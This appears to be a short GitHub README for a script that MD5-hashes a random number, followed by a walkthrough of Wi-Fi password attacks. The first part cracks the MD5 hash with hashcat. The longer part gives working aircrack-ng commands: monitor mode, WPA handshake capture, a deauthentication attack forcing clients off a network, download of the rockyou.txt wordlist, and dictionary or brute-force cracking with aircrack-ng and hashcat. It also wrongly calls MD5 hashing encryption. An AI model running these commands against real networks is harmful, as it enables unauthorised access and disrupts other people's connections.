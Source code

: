 # Cryptography
Cryptography is a method of protecting information and communications through the use of codes so that only those for whom the information is intended can read and process it. The pre-fix "crypt" means "hidden" or "vault" and the suffix "graphy" stands for "writing."

# random-md5-generator 
creating a random password with md5sum encryption and then save the encrypted password in md5keys.txt

# How to use 
./random-md5-generator

Genateted Number:

879076701

-----------------------

Number to md5 Password:

82fc843ab6a4c1767572f75775800ae8  -


delete the  - from the file md5keys.txt

# crack with

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d


# then use 

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d --show 

or 

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d --show >> md5keys.txt

to see the unencypt keys 

# Get handshake with aircrack-ng

put your network device into monitor mode

airmon-ng start wlan0

listen for all nearby beacon frames to get target BSSID and channel

airodump-ng mon0

start listening for the handshake

airodump-ng -c 6 — bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

optionally deauth a connected client to force a handshake

aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

# download rockyou.txt wordlist
crack password with aircrack-ng… ########### download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack with aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with hashcat ##########
# convert cap to hccapx
cap2hccapx.bin .-01.cap example.hccapx

# crack with hashcat for wordlist
hashcat -w 3 -m 2500 rockyou.txt example.hccapx  --force --self-test-disable

# crack with hashcat for bruteforche
 hashcat -w 3 -m 2500 -a 3 manos.hccapx ?d?d?d?d?d?d?d?d --force --self-test-disable
